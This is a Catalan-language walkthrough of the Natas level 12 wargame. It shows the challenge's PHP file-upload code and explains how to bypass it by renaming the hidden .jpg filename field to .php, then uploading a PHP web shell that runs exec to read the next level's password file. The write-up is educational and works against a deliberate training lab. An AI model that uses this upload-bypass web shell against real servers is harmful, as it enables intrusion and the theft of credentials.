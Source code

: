 ```
    if(array_key_exists("filename", $_POST)) {
        $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
            if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
        } else {
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
                echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
                echo "There was an error uploading the file, please try again!";
            }
        }
    } else {
    ?>
    <form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
    <input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
    </form>
    <?php } ?>
```
    Aquesta pàgina el que fa bàsicament és que tu pots penjar un fitxer JPEG (max d'1KB) i després pots anar a veure la imatge en qüestió.
    Primer comprovem si podem penjar altres fitxers que no només siguin format "JPEG".
    Comprovem que si penjem un fitxer .txt (per exemple), ens el deixa pujar, però no el renderitza (no veiem el contingut).
    Procedim a crear un fitxer .php on ens mostri la password de l'usuari 13.
    Tot i així, utilitzarem el mètode "exec" perquè el servidor executi la funció en bash que li passem.

    Fitxer .php, amb payload:
    <?php
    echo(exec('cat /etc/natas_webpass/natas13'));
    ?>

    Un cop el fitxer s'ha pujat, inspeccionem el contingut de la nostra pàgina web i veurem una línia com aquesta:
        <input type="hidden" name="filename" value="s9pspizx1z.jpg">
    Des del navegador modifiquem el nom de .jpg a .php:
        <input type="hidden" name="filename" value="s9pspizx1z.php">
    I li donem al botó de 'Upload File', podrem veure:
        The file upload/s9pspizx1z.php has been uploaded.
    
    Ens hi dirigim i ens mostrara el contingut del fitxer, és a dir, la password.

    Com que estem executant a través del navegador, realment som l'usuari www-data.
    La vulnerabilitat esta en que aixó és una miss-config ja que aquest usuari no hauria de poder mostrar aquest fitxer.
    Apart de que no ens hauria de poder deixar pujar fitxers que no siguin JPEG.


##  NATAS 13
